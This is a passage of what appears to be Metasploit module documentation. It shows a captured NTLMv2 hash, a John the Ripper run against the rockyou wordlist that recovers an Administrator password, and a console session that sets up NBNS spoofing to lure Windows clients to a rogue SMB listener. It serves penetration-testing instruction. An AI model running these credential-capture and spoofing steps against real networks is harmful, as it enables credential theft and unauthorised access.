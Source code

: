 ```
NTHASH:d96937debde3ce251f6889fc1be21a2f 
NT_CLIENT_CHALLENGE:010100000000000025547f719474d5014dd729fda10cf20c00000000020000000000000000000000
```

Client:
```
Browse to the webpage.  This example is on Windows Server 2008r2 with Internet Explorer.
```

Crack the password:
```
# john /tmp/john_netntlmv2 -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 17 password hashes with 17 different salts (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Remaining 15 password hashes with 15 different salts
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
Password123      (Administrator)
15g 0:00:00:00 DONE (2019-09-26 14:06) 115.3g/s 283569p/s 4253Kc/s 4253KC/s dyesebel..holaz
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

### Spoofing NBNS

If the target(s) are on the local network, it's possible to conduct an `nbns` spoof to attract
additional SMB queries to your host.  This scenario will utilize `auxiliary/spoof/nbns/nbns_response`
to conduct the spoofing.  If a Windows user attempts to browse or mount a network name such as
`\\fake`, the `nbns` module will respond back with the set IP.

This is based on [hackingarticles.in](https://www.hackingarticles.in/4-ways-capture-ntlm-hashes-network/)

Server side:
```
msf5 > use auxiliary/server/capture/smb
msf5 auxiliary(server/capture/smb) > set johnpwfile /tmp/johnnbns
johnpwfile => /tmp/johnnbns
msf5 auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/smb) > 
[*] Started service listener on 0.0.0.0:445 
[*] Server started.

msf5 auxiliary(server/capture/smb) > use auxiliary/spoof/nbns/nbns_response
msf5 auxiliary(spoof/nbns/nbns_response) > set spoofip 1.1.1.1
spoofip => 1.1.1.1
msf5 auxiliary(spoof/nbns/nbns_response) > set interface eth0
interface => eth0
msf5 auxiliary(spoof/nbns/nbns_response) > exploit
```